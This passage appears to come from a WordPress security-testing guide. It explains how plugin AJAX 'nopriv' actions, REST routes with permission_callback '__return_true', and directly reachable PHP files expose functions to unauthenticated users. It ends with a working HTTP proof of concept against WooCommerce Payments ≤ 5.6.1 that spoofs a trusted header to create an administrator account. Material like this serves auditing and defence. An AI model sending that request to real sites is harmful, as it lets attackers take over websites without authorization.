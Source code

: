 ```php
add_action( 'wp_ajax_action_name', array(&$this, 'function_name'));
add_action( 'wp_ajax_nopriv_action_name', array(&$this, 'function_name'));
```

**The use of `nopriv` makes the endpoint accessible by any users (even unathenticated ones).**

> [!CAUTION]
> Moreover, if the function is just checking the authorization of the user with the function `wp_verify_nonce`, this function is just checking the user is loggedin, it isn't usually checking the role of the user. So low privileged users might have access to high privileged actions.

- **REST API**

It's also possible to expose functions from wordpress registering a rest AP using the `register_rest_route` function:

```php
register_rest_route(
    $this->namespace, '/get/', array(
        'methods' => WP_REST_Server::READABLE,
        'callback' => array($this, 'getData'),
        'permission_callback' => '__return_true'
    )
);
```

The `permission_callback` is a callback to function that checks if a given user is authorized to call the API method.

**If the built-in `__return_true` function is used, it'll simply skip user permissions check.**

- **Direct access to the php file**

Of course, Wordpress uses PHP and files inside plugins are directly accessible from the web. So, in case a plugin is exposing any vulnerable functionality that is triggered just accessing the file, it's going to be exploitable by any user.

### Trusted-header REST impersonation (WooCommerce Payments ≤ 5.6.1)

Some plugins implement “trusted header” shortcuts for internal integrations or reverse proxies and then use that header to set the current user context for REST requests. If the header is not cryptographically bound to the request by an upstream component, an attacker can spoof it and hit privileged REST routes as an administrator.

- Impact: unauthenticated privilege escalation to admin by creating a new administrator via the core users REST route.
- Example header: `X-Wcpay-Platform-Checkout-User: 1` (forces user ID 1, typically the first administrator account).
- Exploited route: `POST /wp-json/wp/v2/users` with an elevated role array.

PoC

```http
POST /wp-json/wp/v2/users HTTP/1.1
Host: <WP HOST>
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
X-Wcpay-Platform-Checkout-User: 1
Content-Length: 114

{"username": "honeypot", "email": "wafdemo@patch.stack", "password": "demo", "roles": ["administrator"]}
```
